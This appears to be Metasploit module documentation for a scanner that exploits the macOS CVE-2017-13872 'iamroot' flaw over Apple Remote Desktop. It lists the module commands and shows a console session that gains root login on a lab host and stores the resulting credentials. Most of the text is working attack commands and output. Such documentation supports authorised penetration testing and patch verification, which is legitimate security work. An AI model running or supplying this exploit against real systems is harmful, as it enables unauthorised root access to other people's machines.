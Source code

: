 ## Description

This module remotely exploits the remote CVE-2017-13872 (iamroot) vulnerability over Apple Remote Desktop protocol (ARD). It assumes that "System Preferences > Sharing > Screen Sharing" is enabled.

## Verification Steps

1. Do: `use auxiliary/scanner/vnc/ard_root_pw`
2. Do: `set RHOSTS [IP]`
4. Do: `run`

## Scenarios

**Running the scanner**

```
msf > use auxiliary/scanner/vnc/ard_root_pw
msf auxiliary(scanner/vnc/ard_root_pw) > set RHOSTS 172.16.143.129
RHOSTS => 172.16.143.129
msf auxiliary(scanner/vnc/ard_root_pw) > run

[*] 172.16.143.129:5900   - Attempting authentication as root.
[*] 172.16.143.129:5900   - Testing login as root with chosen password.
[+] 172.16.143.129:5900   - Login succeeded - root:xaavMPozB2HmDhGX
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**Credentials**

```
msf auxiliary(scanner/vnc/ard_root_pw) > creds
Credentials
===========

host            origin          service         public  private           realm  private_type
----            ------          -------         ------  -------           -----  ------------
172.16.143.129  172.16.143.129  5900/tcp (vnc)  root    xaavMPozB2HmDhGX         Password
```
